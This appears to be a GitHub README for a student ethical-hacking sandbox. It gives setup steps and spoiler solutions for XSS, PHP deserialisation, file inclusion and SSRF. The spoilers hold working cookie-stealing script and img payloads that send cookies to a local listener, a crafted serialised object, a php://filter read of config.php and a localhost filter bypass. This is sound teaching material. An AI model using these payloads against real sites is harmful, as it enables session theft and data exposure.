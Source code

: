 # Web-Hacking-Demo
A web application hacking sandbox challenge for [Sheffield Ethical Student Hackers](https://shefesh.com). Covering insecure deserialisation, SSRF, XSS, and more

## Setup

### With Docker

On EC2:

```
sudo yum update -y
sudo amazon-linux-extras install docker
sudo yum install docker
sudo service docker start
sudo systemctl enable docker
sudo usermod -a -G docker ec2-user
```

Restart session, then run:

```
sudo yum install git
git clone git@github.com:Twigonometry/Web-Hacking-Demo.git
cd Web-Hacking-Demo/
docker build -t web-hacking-demo .
```

### Manually

Install mysql: `sudo apt install mysql-server php-mysql`

Start service: `sudo systemctl start mysql.service`

Configure:
- `sudo mysql
- `CREATE USER 'sesh'@'localhost' IDENTIFIED BY 'SESHPassword123!';`
- `CREATE DATABASE challenge;`
- `GRANT ALL PRIVILEGES ON challenge.* TO 'sesh'@'localhost' WITH GRANT OPTION;`
- `FLUSH PRIVILEGES;`
- `exit`

Seed: `mysql -u sesh -p < seed.sql`

Launch: `php -S localhost:8000`

## Login

`sesh_admin`:`mylongpassword123?`

## Exploit XSS

The `/reviews` page allows posting reviews. Click one of the sublinks to render the reviews using different levels of user input sanitisation, and see if you can steal an admin cookie.

NOTE: you will need to login as an admin and visit the reviews page in a new browser session (try an incognito tab) and refresh the page after you submit your XSS payload for this to work.

<details>

<summary>Spoilers</summary>

For the unsanitised version, you can create an XHR or fetch request to steal a cookie:

`<script>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</script>`

For the sanitised version, script and iframe tags are removed. You can use uppercase SCRIPT tags:

`<SCRIPT>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</SCRIPT>`

Or use an img:

`<img src=x onerror="this.src='http://localhost:8001/?'+document.cookie; this.removeAttribute('onerror');">`

</details>

## Exploit Deserialisation

The Recipes section has a deserialisation vulnerability that allows reading a secret recipe that would normally be encrypted. This challenge was repurposed from last year's CTF.

<details>

<summary>Spoilers</summary>

Read the source code for the `get-recipe.php` and `create-recipe.php` files using the LFI in the first form field (submit `../get-recipe.php` etc).

This shows us how to submit a new secret recipe: `http://[URL]/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`

This string defines a serialised `SecretRecipe` instance that references the secret recipe we want to steal from the database, but sets `encrypted` to false.

We can then use the ID given to us by the application and submit it to the "Construct Recipe from String in Database" field, where it is deserialised: `http://localhost:8000/get-recipe.php?recipe=&id=&string_id=[ID]`.

</details>

## Exploit File Inclusion

There is a file inclusion vulnerability on `/recipe-hash`

<details>

<summary>Spoilers</summary>

The `recipe-hash.php` file has an `include` statement that includes the contents of the `?hash=` parameter.

To read the config file:

`http://[URL]/recipe-hash.php?hash_input=hello&hash=php://filter/convert.base64-encode/resource=config.php`

</details>

## Exploit Server-Side Request Forgery (SSRF)

Try to use `/page-viewer.php` to view the `/local-only.php` page.

<details>

<summary>Spoilers</summary>

There is an SSRF on `/page-viewer.php` which has a badly implemented filter.

The phrases `127.0.0.1` and `localhost` are blocked, but an alternative can be used such as `127.1`:

`http://127.1:8000/local-only.php`

</details>